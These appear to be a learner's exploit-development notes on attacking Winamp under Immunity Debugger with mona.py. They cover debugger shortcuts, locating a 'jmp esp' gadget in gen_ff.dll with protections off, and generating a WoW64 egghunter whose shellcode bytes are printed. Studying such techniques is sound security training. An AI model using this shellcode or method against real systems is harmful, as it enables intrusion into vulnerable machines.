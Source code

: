 immunity: set options

* ignore exceptions (via: add latest) before pressing `shift-f9` to pass it
* set proper font (Consolas, regular, 14pt)

---

immunity debugger

* `alt-o` options
* `alt-c` CPU
* `alt-l` log (mona output)

---

winamp

* `alt-3` show file info (take a look at the exploit)
* `str-o` open playlist file
* `x` play

---

* `!mona config -set workingfolder Z:\WH3`
* run program in debugger!
* `!mona jmp -n -r esp -cm safeseh=false,rebase=false,aslr=false`
  * find `jmp esp` (`-r` is target register)
  * `-n` skips addresses starting with NULL byte
  * `-cm` speficy options
  * this took very long! (much faster with `-cm`!)
* let's use `0x1a113749` gen_ff.dll
  * `break 0x1a113749`
    * immunity tends to forget breakpoints, so let's keep this
* `!mona egg -wow64 -winver10`

from egghunter.txt:

```sh
"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
"\x05\x74\xdf\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
"\xff\xe7"
```
write it to eggh-mona.txt
